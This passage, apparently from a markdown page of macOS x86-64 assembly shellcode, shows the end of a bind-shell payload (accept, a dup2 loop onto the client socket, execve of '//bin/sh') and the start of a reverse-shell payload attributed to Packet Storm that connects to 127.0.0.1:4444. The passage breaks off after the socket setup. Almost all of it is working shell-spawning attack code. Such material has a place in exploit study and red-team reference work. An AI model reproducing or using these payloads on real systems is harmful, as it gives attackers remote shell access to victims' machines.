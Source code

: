 ```armasm
    mov  al, 0x6a
    syscall

    ; accept(host_sockid, 0, 0)
    xor  rsi, rsi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x1e
    syscall

    mov rdi, rax
    mov sil, 0x3

dup2:
    ; dup2(client_sockid, 2)
    ;   -> dup2(client_sockid, 1)
    ;   -> dup2(client_sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    mov  rax, r8
    mov  al, 0x3b
    syscall
```

#### Reverse Shell

Reverse shell from [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell to **127.0.0.1:4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
```